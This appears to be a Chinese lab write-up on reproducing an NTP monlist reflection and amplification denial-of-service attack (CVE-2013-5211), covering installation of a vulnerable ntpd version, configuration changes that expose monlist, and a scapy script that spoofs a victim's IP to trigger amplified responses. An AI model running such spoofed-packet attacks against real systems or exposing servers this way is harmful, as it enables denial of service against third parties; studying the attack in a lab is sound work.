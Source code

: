 ### 完整的ntp放大反攻击实验
​	最近需要做这么个实验，从服务器的搭建到攻击实现，走了很多曲折的道路，也花了很多时间，因为网上资料杂七杂八并不是很全，所以我现在整理一下。

​	放大反射dos攻击由CVE-2013-5211所致。且这漏洞是与molist功能有关。Ntpd4.2.7p26之前的版本都会去响应NTP中的mode7“monlist”请求。ntpd-4.2.7p26版本后，“monlist”特性已经被禁止，取而代之的是“mrulist”特性，使用mode6控制报文，并且实现了握手过程来阻止对第三方主机的放大攻击。所以我们需要安装之前的版本4.2.6p5。

​	那我们接着来看什么是 NTP 的反射和放大攻击，NTP 包含一个 monlist 功能，也被成为 MON_GETLIST，主要用于监控 NTP 服务器，NTP 服务器响应 monlist 后就会返回与 NTP 服务器进行过时间同步的最后 600 个客户端的 IP，响应包按照每 6 个 IP 进行分割，最多有 100 个响应包。

#### 一、ntp服务器的安装
1 解压文件

tar -xzvf ntp-4.2.6p5.tar.gz

2 编译安装

~~~
./configure --prefix=/usr/local/ntp --enable-all-clocks --enable-parse-clocks
~~~
~~~
make && make install
~~~
3 更改配置文件
~~~
restrict default kod nomodify notrap nopeer noquery

restrict -6 default kod nomodify notrap nopeer noquery
~~~
这两行的意思是允许发起时间同步的IP，与本服务器进行时间同步，但是不允许修改ntp服务信息，也不允许查询服务器的状态信息（如monlist），所以要把最后的noquery请求去掉，如何最后出问题的话，大概率是因为配置文件的问题。

如果有*disable monitor*也去掉。
~~~
![netstat](F:\python_work\amplification attack\pic\netstat.jpg)1）允许任何IP的客户机都可以进行时间同步
restrict default kod nomodify notrap nopeer noquery
这行修改成：
restrict default nomodify
2）只允许192.168.1.*网段的客户机进行时间同步
restrictdefault nomodify notrap noquery 表示默认拒绝所有IP的时间同步
之后增加一行：
restrict 192.168.1.0 mask 255.255.255.0nomodify
~~~
最后加上
~~~
server 127.127.1.0 
fudge 127.127.1.0 stratum 8
~~~
主要是解决同步时出现 no server suitable for synchronization found错误

4 启动服务
~~~
/usr/local/ntp/bin/ntpd -c /etc/ntp.conf -p /tmp/ntpd.pid
~~~

5 查看端口状态
~~~
netstat -tunlp | grep 123
~~~

![](F:\python_work\amplification attack\pic\netstat.jpg)

#### 二、 测试

1 运行命令，查看ntp服务器同步情况，出现LOCAL就行了。

~~~
./ntpq -p
~~~

![](F:\python_work\amplification attack\pic\1576048989(1).png)

2 在另外一台机器进行时间同步测试

~~~
ntpdate x.x.x.x
~~~

如果出现offset说明成功。

![](F:\python_work\amplification attack\pic\1576049151(1).jpg)

3 测试monlist功能

~~~
ntpdc -n -c monlist 192.168.19.129 | wc -l
~~~

![](F:\python_work\amplification attack\pic\1576049315(1).jpg)

返回数字说明成功，就可以运行攻击脚本了。

4 IP欺骗进行攻击（未完待续）

~~~
import sys
from scapy.all import *


def attack(target, ntp_server):
    send(IP(dst=ntp_server, src=target) / (UDP(sport=52816) / NTP(version=2, mode=7, stratum=0, poll=3, precision=42)))

if __name__ == "__main__":
    target = '192.168.19.133'
    ntp_server = '192.168.19.129'
    # while True:
    attack(target,ntp_server)
~~~

![](F:\python_work\amplification attack\pic\1576049487(1).jpg)

攻击效果



参考链接

<https://blog.csdn.net/qq_36294875/article/details/79491614>

<https://blog.csdn.net/qq_32350719/article/details/88663455>

<https://www.cnblogs.com/liubin0509/p/6282858.html>

<https://blog.csdn.net/wzq756984/article/details/73866231>